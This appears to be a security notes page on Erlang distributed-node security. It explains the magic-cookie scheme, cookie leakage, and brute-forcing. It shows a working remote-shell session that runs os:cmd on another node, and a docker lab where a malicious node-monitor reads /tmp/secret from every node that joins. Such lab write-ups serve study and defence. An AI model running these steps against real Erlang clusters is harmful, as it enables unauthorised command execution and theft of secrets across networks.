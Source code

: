 # Erlang

## Authentication Cookie

Authentication between Erlang nodes is rather unique to anything I've seen elsewhere, and it all happens through the magic of cookies.  The [documentation ](http://erlang.org/doc/reference_manual/distributed.html)sums this up well:

> Authentication determines which nodes are allowed to communicate with each other. In a network of different Erlang nodes, it is built into the system at the lowest possible level. Each node has its own **magic cookie**, which is an Erlang atom.
>
> When a node tries to connect to another node, the magic cookies are compared. If they do not match, the connected node rejects the connection.

If the authentication cookie is leaked then theoretically we can abuse the nature of Erlang's inter-connectivity to achieve command execution on a node we shouldn't necessarily be able to.  Due to the distributed nature of Erlang also, this represents a fundamental risk.

Of course this only assumes you can leak the cookie.  There are a number of methods, such as in the event of a lower privileged user seeing the `-setcookie` flag in a process list, a weak cookie or a simple brute-force.  The topic of brute-forcing is discussed by Daniel Mende in [Erlang distribution RCE and a cookie bruteforcer](https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/), as well as by Michael Santos in [Spoofing the Erlang Distribution Protocol](http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html).

If we have access to the cookie and can connect to a node's epmd port \(usually tcp/4369\), we can spawn our own node and achieve command execution in the following manner:

```
otheruser@pc:/$ erl -sname booj -setcookie cookieval -remsh node@localhost
<me booj -setcookie cookieval -remsh node@localhost
Eshell V7.3 (abort with ^G)
(booj@booj)1> net_adm:ping(node@localhost).
net_adm:ping(node@localhost).
pong
(booj@booj)2> spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
spawn(node@localhost, fun() -> io:format("~p~n", [os:cmd('/usr/bin/id')]) end).
"uid=1000(mainuser) gid=1000(mainuser) groups=1000(mainuser)\n"
<6881.23434.8>
```

**References**

[https://insinuator.net/2017/10/erlang-distribution-rce-and-a-cookie-bruteforcer/](https://legacy.gitbook.com/book/reboare/booj-security/edit#)  
[http://blog.listincomprehension.com/2010/03/spoofing-erlang-distribution-protocol.html](https://legacy.gitbook.com/book/reboare/booj-security/edit#)

**Further Reading**

[Who wants cookies?](https://blog.voltone.net/post/4)  
[Unauthorized Erlang](https://blog.voltone.net/post/12)

## Node Poisoning

Connecting to an Erlang cluster can potentially be dangerous.  We've mentioned the dangers of arbitrary command execution on adjacent nodes, but this also extends to your workstation upon connecting to a cluster.  In Alex Weber's [Erlang's remsh is dangerous](https://www.broot.ca/erlang-remsh-is-dangerous), we are given a method to compromise an active workstation connecting to a cluster.

If, for example, we were to take control of a single node within a cluster, not only do we have arbitrary command execution over it, but we would also be able to infect any new nodes which join the cluster automatically.

I've tested this out using three docker containers:

**bar@bar**

```bash
root@ubuntu:/home/booj# docker run --rm -it --name bar -h bar --net example erlang:19.3 /bin/bash
root@bar:/# echo thisisbar > /tmp/secret
root@bar:/# erl -sname bar -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(bar@bar)1> net_adm:ping(foo@foo).
pong
(bar@bar)2> spawn(fun Grab_keys() ->
(bar@bar)2>   net_kernel:monitor_nodes(true),
(bar@bar)2>   receive
(bar@bar)2>     {nodeup, Node} ->
(bar@bar)2>       Keys = rpc:call(Node, os, cmd, ["cat /tmp/secret"]),
(bar@bar)2>       file:write_file(string:concat("/tmp/", Node), Keys)
(bar@bar)2>   end,
(bar@bar)2>   Grab_keys()
(bar@bar)2> end).
<0.71.0>
```

So we've set up our first node and attached our malicious monitor.

**foo@foo**

```bash
root@ubuntu:/home/booj# docker run --rm -it --name foo -h foo --net example erlang:19.3 /bin/bash
root@foo:/# echo thisisfoo > /tmp/secret
root@foo:/# erl -sname foo -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(foo@foo)1> net_adm:ping(bar@bar)
(foo@foo)1> .
pong
```

Now we've connected to our adjacent node and if we attach a terminal to our `bar` docker container, we'll see our dumped secret within tmp.

```bash
root@bar:/tmp# ls -la
total 20
drwxrwxrwt 1 root root 4096 Apr 16 20:18 .
drwxr-xr-x 1 root root 4096 Apr 16 20:14 ..
drwxr-xr-x 2 root root 4096 Apr 10 01:39 .tmp_dir531002228620
-rw-r--r-- 1 root root   10 Apr 16 20:18 foo@foo
-rw-r--r-- 1 root root   10 Apr 16 20:15 secret
root@bar:/tmp# cat foo@foo
thisisfoo
```

Now, any nodes that connect, due to the way Erlang works, will have their secret instantly dumped:

**baz@baz**

```bash
root@ubuntu:/home/booj# docker run --rm -it --name baz -h baz --net example erlang:19.3 /bin/bash
root@baz:/# erl -sname baz -setcookie example
Erlang/OTP 19 [erts-8.3.5.4] [source] [64-bit] [async-threads:10] [hipe] [kernel-poll:false]

Eshell V8.3.5.4  (abort with ^G)
(baz@baz)1> net_adm:ping(foo@foo).
pong
```

```bash
root@bar:/tmp# ls -la
total 24
drwxrwxrwt 1 root root 4096 Apr 16 20:23 .
drwxr-xr-x 1 root root 4096 Apr 16 20:14 ..
drwxr-xr-x 2 root root 4096 Apr 10 01:39 .tmp_dir531002228620
-rw-r--r-- 1 root root   10 Apr 16 20:23 baz@baz
-rw-r--r-- 1 root root   10 Apr 16 20:18 foo@foo
-rw-r--r-- 1 root root   10 Apr 16 20:15 secret
```

Whilst this may not be a particularly surprising result for Erlang developers, it does represent a quite frightening realization that a single node being compromised will indeed compromise the entire network.

**References**

[Erlang's remsh is dangerous](https://www.broot.ca/erlang-remsh-is-dangerous)  
[https://stackoverflow.com/questions/45057343/connect-erlang-nodes-on-docker](https://stackoverflow.com/questions/45057343/connect-erlang-nodes-on-docker)

## Cookie Bruteforcing

The code for cookie creation lies in [lib/kernel/src/auth.erl](https://github.com/erlang/otp/blob/master/lib/kernel/src/auth.erl).

**Further Reading**

[https://github.com/msantos/spoofed](https://github.com/msantos/spoofed)

[https://www.youtube.com/watch?v=42k70Y-yTYY](https://www.youtube.com/watch?v=42k70Y-yTYY)

[https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf](https://conference.hitb.org/hitbsecconf2017ams/materials/D2T4 - Don Bailey - Unauthorized Erlang.pdf)

